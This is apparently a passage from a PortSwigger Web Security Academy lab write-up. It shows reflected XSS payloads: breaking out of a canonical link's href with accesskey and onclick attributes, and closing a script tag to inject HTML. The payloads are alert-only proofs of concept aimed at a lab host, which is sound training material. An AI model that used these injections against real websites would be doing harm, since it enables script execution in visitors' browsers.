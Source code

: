 ```html
<link rel="canonical" href='https://0a0d00c303f4a09d80ea5446003800d5.web-security-academy.net/'/>
```

We can try to modify this href, how?
If you try to access to another path you see a 404 error, but if you add a paramenter `?` you see that is reflected in the href:

```html

https://0a0d00c303f4a09d80ea5446003800d5.web-security-academy.net/?testing

<link rel="canonical" href='https://0a0d00c303f4a09d80ea5446003800d5.web-security-academy.net/?testing'/>
```

You can try to escape with a single quote `'` and add the necesaries attributes to pass the lab:

```html
https://0a0d00c303f4a09d80ea5446003800d5.web-security-academy.net/?testing'accesskey='x'onclick='alert(0)

<link rel="canonical" href='https://0a0d00c303f4a09d80ea5446003800d5.web-security-academy.net/?testing'accesskey='x'onclick='alert(0)'/>
```

- `accesskey='x'`: This is the shorcut, when you use this shortcut.
- `onclick='alert(0`: The event that trigger when use the shorcut, you don't close with single quote because have a extra single quote without close.

In this case you have to remove the spaces or %20

In this case we only can execute in Chrome because the `onclick` attribute don't work automatically when use  `accesskey` attribute.

Depend of your OS you can use some of the following shortcut:
- `ALT+SHIFT+X`
- `CTRL+ALT+X`
- `Alt+X`

In linux use Alt+X

# Reflected XSS into a JavaScript string with single quote and backslash escaped

In this case,we inspect the page and we see a script tag, if we try to escape with single quotes they escaped with a backlash and if you try to put a backslash it is escaped by another backslash. And now what?, we can try to think out of the box. If we try to close the `<script>` tag even though we are inside the single quotes.

```html
</script>
```

Ouh, if we inspect now we see that the script tag is interpreted and is closed.

Next try html injection.
```html
</script><marquee>testing</marquee>
```
